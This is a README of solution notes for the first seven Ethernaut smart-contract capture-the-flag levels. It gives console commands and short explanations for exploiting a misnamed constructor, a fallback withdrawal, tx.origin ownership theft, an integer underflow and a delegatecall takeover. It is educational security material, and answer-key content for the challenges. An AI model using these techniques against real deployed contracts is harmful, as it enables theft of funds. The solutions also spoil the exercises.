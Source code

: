 # Solutions

### Hello Ethernaut (Level 1)
```javascript
await contract.info()
await contract.info1()
await contract.info2("hello")
await contract.infoNum()
await contract.info42()
await contract.theMethodName()
await contract.method7123949()
await contract.password()
await contract.authenticate("ethernaut0")
```

### Fallback (Level 2)
```javascript
await contract.contribute({value:toWei("0.0001")})
await contract.getContribution()
web3.eth.sendTransaction({from:player,to:contract.address , value:web3.utils.toWei('0.0001','ether')})
await contract.withdraw()
```

### Fallout (Level 3)
```javascript
await contract.Fal1out()
```
Basically the story about Rubixi, that changed the contract name but not the old constructor.

### Coin Flip (Level 4)
The solution is in ```coin-flip.sol```, but basically we create another contract with a function to get the correct guess using the same logic the original coin flip uses to determine which side the coin flipped. The problem here is that the strategy to generate a random side does not generate a random side in fact and it is easily reproduced.

### Telephone (Level 5)
The solution is in ```telephone.sol``` and consisted of calling the function to change ownership with the player address as parameter but from another contract, so tx.origin is not the address of the player.

### Token (Level 6)
The idea to solve this is to cause an onverflow, because the subtraction of tokens from balances is done by simply doing
```javascript
balances[msg.sender] -= _value;
```
we can transfer all our tokens to the address of the contract for example, and then transfer an extra token, this will put our balance to the maximum of uint256.

### Delegation (Level 7)
This level taught how do fallback methods and delegatecall works. By sending a transaction to a contract that did not have a receive function prepared, we force the execution of the fallback function, in which there is a delegatecall method to the contract delegate. The idea here is to call the pwn() function from the Delegate contract but with delegatecall, which makes the Delegation contract run the pwn function from Delegate but with its own msg.sender, msg.value and more important to this, its own storage.
```javascript
web3.eth.sendTransaction({from: player, to: contract.address, data: web3.eth.abi.encodeFunctionSignature("pwn()")})
```